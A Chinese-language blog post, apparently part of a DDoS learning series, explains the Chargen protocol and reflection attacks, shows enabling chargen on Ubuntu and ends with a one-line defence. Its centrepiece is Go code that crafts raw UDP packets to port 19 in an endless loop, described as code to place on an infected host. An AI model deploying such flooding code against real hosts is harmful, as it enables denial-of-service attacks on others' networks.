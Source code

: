 ```yaml
---
author: Sunny Tsai
title: "[Day 20] 閑的沒事 - Chargen反射攻擊"
date: 2023-10-03
math: true
tags: [
    "cloud",
    "chargen",
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-DDOS：閑的沒事就開始DDOS"]
---
```

# Chargen
字符產生器協定The Character Generator Protocol (Chargen)顧名思義就是會一直發送字元的協定。默認PORT為19/UDP跟19/TCP，初衷是為了測試與診斷網際網路連線，發送方式有TCP跟UDP兩種：
* TCP連線建立後: 伺服器不斷傳送任意的字元到客戶端，直到客戶端關閉連線。
* UDP連線建立後: 每當伺服器收到客戶端的一個UDP數據包，這個數據包中的內容將被丟棄，而伺服器將傳送一個數據包到客戶端，其中包含長度為0～512位元組之間隨機值的任意字元。

## 輸出數據格式
RFC 864沒有規定輸出的具體準確格式。實際操作結果是，輸出每行72個字元，這些字元是ASCII可列印字元，印完了重頭開始繼續。

-----

# 測試
作業系統：Ubuntu
服務：xinetd
修改：把`/etc/xinetd.d/chargen`裡面的`disable`改成`no`
測試：
```shell
> telnet -r localhost 19
```
結果
![](https://imgur.com/SoVM62s.png)


# Code
寫了一個udp範例，模仿chargen服務。只要code不停就不段發送，仿照chargen協議。
```
package main

import (
	"log"
	"math/rand"
	"net"
	"os"
	"time"

	"github.com/google/gopacket"
	"github.com/google/gopacket/layers"
	"github.com/google/gopacket/pcap"
)

func main() {

	var (
		device      string = "bridge100"
		snapshotLen int32  = 1024
		promiscuous bool   = false
		err         error
		timeout     time.Duration = 10 * time.Second
		handle      *pcap.Handle
		buffer      gopacket.SerializeBuffer
		random      *rand.Rand
	)

	handle, err = pcap.OpenLive(device, snapshotLen, promiscuous, timeout)
	if err != nil {
		log.Fatal(err)
	}
	defer handle.Close()

	random = rand.New(rand.NewSource(time.Now().UnixNano()))
	srcPort := layers.UDPPort(random.Intn(65535))
	dstPort := layers.UDPPort(19)

	ethernetLayer := &layers.Ethernet{
		SrcMAC:       net.HardwareAddr{0xFF, 0x00, 0xFF, 0x00, 0xFF, 0x00},
		DstMAC:       net.HardwareAddr{0xFF, 0x00, 0xFF, 0x00, 0xFF, 0x00},
		EthernetType: layers.EthernetTypeIPv4,
	}

	ipLayer := &layers.IPv4{
		SrcIP:    net.IP{10, 211, 55, 3},
		DstIP:    net.IP{10, 211, 55, 10},
		Version:  4,
		TTL:      64,
		Protocol: layers.IPProtocolUDP,
	}

	udpLayer := &layers.UDP{
		SrcPort: srcPort,
		DstPort: dstPort,
	}
	udpLayer.SetNetworkLayerForChecksum(ipLayer)

	// Chargen query
	chargenQuery := []byte("!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz{|}")

	payload := chargenQuery

	for {
		buffer = gopacket.NewSerializeBuffer()
		opts := gopacket.SerializeOptions{
			FixLengths:       true,
			ComputeChecksums: true,
		}

		if err := gopacket.SerializeLayers(buffer, opts, ethernetLayer, ipLayer, udpLayer, gopacket.Payload(payload)); err != nil {
			log.Fatal(err)
		}
		udpPacket := buffer.Bytes()

		err = handle.WritePacketData(udpPacket)
		if err != nil {
			log.Fatal(err)
			os.Exit(1)
		}
	}
}
```

## 反射攻擊
以上code是一段模仿chargen的code，可以放在已被感染的主機上。接下來攻擊者只要發送一段小小的request指引這個被感染的主機不停發送字元。

# 攔截封包
大概長的會是這樣，因為for迴圈是包在udpLayer後面的，所以所有封包都是同一個port發出來
![](https://imgur.com/xUJ5zjE.png)


# 防護
chargen不是常用協議，被利用的話只要把`/etc/xinetd.d/chargen`的`disable`改`yes`就好了
